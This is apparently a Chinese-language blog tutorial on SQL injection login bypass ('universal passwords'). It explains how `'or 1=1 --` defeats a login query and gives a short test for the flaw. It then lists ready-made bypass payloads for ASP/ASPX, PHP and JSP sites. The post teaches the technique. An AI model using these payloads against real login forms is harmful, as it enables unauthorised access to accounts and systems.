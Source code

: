 ```yaml
---
layout: post
tags: SQL注入 渗透测试
title: "SQL注入（二）"
category: SQL注入
excerpt: 万能密码漏洞
---
```

> 如果觉得这篇文章写的不错，来给我[打赏鼓励](https://github.com/miaochiahao/miaochiahao.github.io/blob/master/pictures/alipay.jpg?raw=true)一下吧~我会写出更好的文章

## OR漏洞简述

该漏洞又称万能密码，效果是通过构造一个恒为真的语句来绕过用户名密码检测，不通过密码即可登录进去

## 漏洞原理

由于程序对用户输入没有进行过滤，我们可以通过构造恒为真的语句来控制查询。

例如在我们输入用户名为 `admin` 密码为 `123` 时，SQL查询语句为

{% highlight sql %}
SELECT * FROM admin WHERE Name='admin' and passWord='123'
{% endhighlight %}


而我们通过构造语句在用户名处输入 `'or 1=1 --` 密码为任意值如 `111`此时查询语句变为

{% highlight sql %}
SELECT * FROM admin WHERE Name=''or 1=1 --' and passWord='111'
{% endhighlight %}

此时的效果是用户名为null，而后面加入了一个恒为真的语句 `1=1` 此时用户名部分是为真的。`--`表示注释掉后面所有的内容，因此在 `--` 后面的内容都失效了，密码不会进行判断。

原本程序设定应该是当这条SQL查询语句查询到用户名密码均正确时返回真，返回结果为真时登陆进界面。此时由于构造了一个为真的语句，我们便可以绕过用户名密码进行登陆。

## 判断方法

在输入框输入单引号进行登陆，若有报错说明没有对单引号进行过滤，存在此漏洞

## 不同类型程序的万能密码

应该注意的是不同类型的数据库程序所使用的语法不同，以下内容转自[chengker](http://chengkers.lofter.com/post/14c64b_379726)的博客

### ASP ASPX万能密码

>* "or "a"="a
>* ')or('a'='a
>* or 1=1--
>* 'or 1=1--
>* a'or' 1=1--
>* "or 1=1--
>* 'or'a'='a
>* "or"="a'='a
>* 'or''='
>* 'or'='or'
>* 1 or '1'='1'=1
>* 1 or '1'='1' or 1=1
>* 'OR 1=1%00
>* "or 1=1%00
>* 'xor
>* 用户名 ' UNION Select 1,1,1 FROM admin Where ''=' （替换表名admin） 密码 1
>* ..admin' or 'a'='a 密码随便

### PHP万能密码

>* 'or 1=1/*
>* User: something
>* Pass: ' or '1'='1

### JSP 万能密码

>* 1'or'1'='1
>* admin' or 1=1/*